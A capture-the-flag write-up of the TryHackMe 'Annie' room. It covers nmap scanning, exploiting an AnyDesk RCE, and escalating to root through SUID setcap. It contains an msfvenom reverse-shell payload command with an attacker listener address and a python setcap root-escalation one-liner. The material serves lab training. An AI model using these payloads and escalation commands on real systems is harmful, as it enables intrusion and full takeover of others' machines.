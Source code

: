 # TryHackme - Annie

## User

I started with an initial nmap scan to see which ports are open.

`nmap -v -Pn -sV -T4 <IP>`

![Screenshot1](./screenshot0.png)

We get to see an SSH service and something unknown on port 7070.
Then let's scan again a bit more closely to get some more information.

`nmap -v -p22,7070 -sV --version-all -sC <IP>`

![Screenshot1](./screenshot1.png)

With the `-sC` switch of `nmap` we get more useful information and we see that there is an `AnyDesk client` running.
So I did some research and looked if there are exploits for Anydesk.
On [exploit-db.com](https://www.exploit-db.com/exploits/49613) I quickly found a RCE exploit.

![Screenshot2](./screenshot2.png)

In the exploit we see commented that we need to change the shellcode.

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode`

So I started to set the msfvenom command with my IP and the port of my listener and exchange the shellcode with the one in the script.
Then I set the script to port 7070 and the IP of the box, but it didn't work.
I went through the exploit code again in more detail line by line.
The fact that the socket is programmed to UDP (`s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM`) gave me the idea to scan the usual AnyDesk port for UDP.
I got the following result.

![Screenshot3](./screenshot3.png)

So I set the port in the exploit script back to 50001 and tried again.
Finally I got a shell at my listener.
We are logged in as user annie and get the user flag.

![Screenshot4](./screenshot4.png)

## PrivEsc

With the Privilege Escalation I knew quickly what to do.
I started with some basic enumerations and when looking for SUID files `/sbin/setcap` immediately jumped into my eyes.

![Screenshot5](./screenshot5.png)

With the SUID bit set to `setcap` we can give capability to other files.
More about this here: https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

With the following commands i got root.

```bash
$setcap cap_setuid+ep /usr/bin/python3.6`
$/usr/bin/python3.6  -c 'import os; os.setuid(0); os.system("/bin/bash");'
```
![Screenshot6](./screenshot6.png)
